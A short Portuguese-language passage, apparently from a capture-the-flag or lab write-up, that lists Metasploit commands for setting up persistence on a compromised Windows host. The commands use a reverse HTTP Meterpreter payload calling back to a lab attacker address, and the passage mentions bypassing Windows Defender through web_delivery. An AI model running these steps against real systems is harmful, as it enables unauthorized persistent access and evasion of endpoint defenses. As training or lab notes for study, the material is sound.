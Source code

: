 ### setando persistência

- `control+z ou digite bg`
- `msf6 exploit(multi/script/web_delivery) > use exploit/windows/local/persistence`
- `msf6 exploit(windows/local/persistence) > set payload windows/meterpreter/reverse_http`
- `msf6 exploit(windows/local/persistence) > set session 1`
- `msf6 exploit(windows/local/persistence) > set lhost tun0
lhost => 10.2.109.206`
- `run`

**Conhecimentos adquiridos:**
- Setar persistência com metasploit
- Bypass windefender com exploit(multi/script/web_delivery